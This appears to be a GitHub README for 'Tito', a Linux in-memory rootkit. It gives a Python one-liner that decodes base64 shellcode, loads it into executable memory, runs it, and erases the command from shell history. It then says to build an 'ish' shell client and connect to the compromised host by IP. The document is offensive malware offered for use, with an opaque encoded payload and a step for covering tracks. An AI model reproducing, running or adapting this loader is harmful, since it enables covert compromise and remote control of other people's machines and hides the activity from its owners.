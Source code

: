 # Tito
An In-Memory Rootkit For Linux

# From Tito to Stalin

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

From there you may go into the ISHELL-v0.3 folder and type 'make linux' to build ish. Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on Debian Trixie. 
